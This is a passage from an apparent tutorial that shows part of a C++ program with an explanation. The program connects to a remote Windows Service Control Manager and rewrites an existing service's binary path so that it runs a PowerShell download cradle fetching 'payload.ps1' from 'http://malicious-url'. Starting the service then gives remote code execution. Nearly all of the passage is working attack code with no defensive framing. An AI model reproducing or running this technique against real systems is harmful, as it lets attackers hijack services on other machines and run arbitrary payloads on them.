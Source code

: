 ```cpp
    }

    std::cout << "Connected to the Service Control Manager on " << targetHost << std::endl;

    // Step 2: Open the target service
    SC_HANDLE hService = OpenServiceW(hSCManager, serviceName, SERVICE_CHANGE_CONFIG | SERVICE_START);
    if (hService == NULL) {
        std::cerr << "Failed to open the target service." << std::endl;
        CloseServiceHandle(hSCManager);
        return 1;
    }

    std::cout << "Opened handle to service: " << serviceName << std::endl;

    // Step 3: Modify the service to execute a new binary (e.g., a PowerShell download cradle)
    const char* newBinaryPath = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -c \"IEX(New-Object Net.WebClient).DownloadString('http://malicious-url/payload.ps1')\"";
    
    if (!ModifyServiceAndExecute(hService, newBinaryPath)) {
        std::cerr << "Failed to modify the service and execute the payload." << std::endl;
        CloseServiceHandle(hService);
        CloseServiceHandle(hSCManager);
        return 1;
    }

    // Step 4: Clean up
    CloseServiceHandle(hService);
    CloseServiceHandle(hSCManager);

    return 0;
}
```

### **Explanation of the Code**

1. **Connecting to SCM**:
   - We connect to the SCM on the remote machine using `OpenSCManagerW`. This grants us a handle to interact with services on the target.

2. **Opening the Target Service**:
   - We open the existing service using `OpenServiceW` with the permissions `SERVICE_CHANGE_CONFIG | SERVICE_START`, which allows us to modify the service configuration and start it.

3. **Modifying the Service Configuration**:
   - We use `ChangeServiceConfigA` to change the binary path that the service executes. In this example, the new path is a PowerShell command that downloads and executes a script from a remote URL.

4. **Starting the Service**:
   - We then use `StartServiceA` to start the service, which executes the new binary or command, resulting in remote code execution.
